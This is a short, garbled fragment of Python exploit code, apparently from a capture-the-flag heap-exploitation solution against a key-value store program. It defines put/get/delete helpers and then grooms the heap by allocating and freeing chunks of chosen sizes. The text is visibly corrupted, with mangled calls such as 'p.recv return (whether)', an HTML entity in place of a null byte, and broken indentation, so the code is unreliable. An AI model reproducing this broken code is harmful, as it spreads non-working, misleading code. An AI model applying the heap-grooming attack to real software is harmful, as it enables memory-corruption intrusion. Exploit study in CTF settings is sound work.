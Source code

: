 ```python
ps (data.ljust (size, &#39;x00&#39;))
    else:

        p.s(data)





def delete(key):

    cmd('DEL')

    p.recvuntil('key:')

    p.sendline(key)




def get(key):

    cmd('GET')

    p.recvuntil('key:')

    p.sendline(key)

    p.recvuntil('[')

    num = int(p.recvuntil(' bytes').strip(' bytes'))

    p.recvuntil(':\n')

p.recv return (whether)




def main():

    # avoid complicity of structure malloc

    for i in range(10):

        put(str(i), 0x38, str(i))

        

    for i in range(10):

delete (str (i))


    # allocate what we want in order

    put('1', 0x200, '1')

    put('2', 0x50, '2')

    put('5', 0x68, '6')

    put('3', 0x1f8, '3')
```